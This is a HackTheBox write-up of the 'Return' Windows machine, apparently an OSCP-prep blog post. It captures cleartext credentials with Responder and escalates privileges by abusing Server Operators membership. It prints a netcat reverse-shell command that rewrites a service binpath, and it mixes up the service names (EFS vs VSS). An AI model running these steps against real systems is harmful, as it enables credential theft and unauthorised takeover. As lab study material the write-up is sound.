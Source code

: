 ```yaml
---
layout: writeup
title: Return - HackTheBox
date: 2024-07-12 13:32:20 +0300
description: A Writeup of the Forest Box from HackTheBox
image: # /assets/images/Return/Return.png
fig-caption: # Add figcaption (optional)
tags: [TJ Null, LainKusanagi, Windows, Server Operators]
---
```


Today I'm doing a writeup for a [Hack The Box](https://app.hackthebox.com/profile/2013658) box from both TJ Null’s OSCP [lab prep list](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#)and LainKusanagi’s [list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/). It is called Return, and it is rated Easy by HackTheBox. As usual, we get started with an nmap scan. I'm using my own [custom script](https://github.com/pentestpop/verybasicenum/blob/main/vbnmap.sh) for this which (gives more detail but) shows these open ports:

```
Not shown: 988 closed tcp ports (reset)
PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
```

Looks like we have a few different paths to go down. I add `return.local` to `/etc/hosts` and try the usual enum4linux, smb, rpc paths, and none of them go anywhere without auth so I visit the web page in the browser, and I see the HTB Printer Admin Panel. 

![Return2.png](/assets/images/Return/Return2.png){: .center-aligned width="600px"}

The Fax and Troubleshooting pages go nowhere, but the settings page has a place to input some parameters.

![Return3.png](/assets/images/Return/Return3.png){: .center-aligned width="600px"}

I don't have a different username or password yet obviously, but I can fiddle with the address. It won't download anything when I set up a python server, but if I run `sudo responder -I tun0` and enter my own IP into the Server Address field, I am able to capture what look like clear text credentials. 

![Return4.png](/assets/images/Return/Return4.png){: .center-aligned width="600px"}

I check for SMB and WinRM access, and while I don't find anything interestingin SMB, I do have winrm access with this user. And it looks like we have some pretty interesting privileges:

![Return5.png](/assets/images/Return/Return5.png){: .center-aligned width="600px"}

I tried to use SeBackupPrivilege to my advantage based on [hacktricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens), but I couldn't get anything working so I ran winpeas to see if there was anything else I might be missing. One thing that stands out is that there are a ton (these are just a few) of services we can modify. 

![Return6.png](/assets/images/Return/Return6.png){: .center-aligned width="600px"}

This is because the svc-printer user is in the Server Operators group. We see this output in winpeas, but we apparently are allowed to simply list the services, so we may need to just pick a few and try them. 

![Return7.png](/assets/images/Return/Return7.png){: .center-aligned width="600px"}

I try a few of them - RmSVC, DFSR, CNG, but VSS or Volume Shadow Copy Service, actually works. You do need to upload or find nc.exe, but it's just as easy to upload it, espeically with evil-winrm, so I put it in our user's home. The commands are: 
- `sc.exe config EFS binpath="C:\windows\system32\cmd.exe /c C:\Users\svc-printer\nc.exe -e cmd 10.10.14.3 445"`
- `sc.exe stop VSS`
- `sc.exe start VSS`

And we get a shell. 

![Return8.png](/assets/images/Return/Return8.png){: .center-aligned width="600px"}

### Lessons Learned
The foothold was pretty simple, but the privesc was a little trickier for me. I would just say I learned a new technique to use when our user is a member of the "Server Operators" group, and that VSS is a good service to abuse, perhaps in this case because we have SeBackupPrivilege, and VSS is integral to backup and recovery operations?

### Remediation Steps
- Patch the HTB Printer Admin Panel service
- At minimum don't allow it to send plaintext credentials
- Whitelist which IPs could be used for that
- The svc-printer user should not also be a member of the Server Operators group or have backup privileges. Service accounts should be restricted to what they are used for according to the principle of least privilege. 